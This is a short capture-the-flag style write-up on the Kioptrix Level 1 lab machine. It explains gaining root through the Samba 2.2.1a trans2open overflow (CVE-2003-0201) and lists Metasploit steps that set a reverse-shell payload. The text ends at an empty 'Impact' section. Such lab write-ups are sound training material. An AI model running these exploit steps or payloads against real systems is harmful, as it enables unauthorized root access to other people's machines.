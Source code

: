 # Kioptrix L1: Privilege Escalation using Samba Version

## Summary:
Due to the available version of Samba in Kioptrix, an attacker after enumerate this service can escalate root privileges.

## Technical Details:
The available version of Samba found is 2.2.1a is vulnerable to a buffer overflow called **trans2open** according to this **Common Vulnerabilities and Exposure 2003-0201 [(CVE-2003-0201)](https://www.cvedetails.com/cve/CVE-2003-0201/)** 
using arbitraty code -a payload for example- it is possible to obtain root privileges. 

## Steps to reproduce using metasploit and a terminal:
1) msfconsole
2) search trans2open
3) use 1
4) set RHOSTS <ip_of_kioptrixl1>
5) set payload linux/x86/shell_reverse_tcp
6) run

## Supporting Material:
1) Gaining root privileges:
![samba_trans2open_01.png](./media/samba_trans2open_01.png?raw=true "Gaining root Privilege")

2) Directory listing:
![samba_trans2open_02.png](./media/samba_trans2open_02.png?raw=true "Directory Listing")

3) Accessing to mail server:
![samba_trans2open_03.png](./media/samba_trans2open_03.png?raw=true "Accesing to mail server")

## Impact: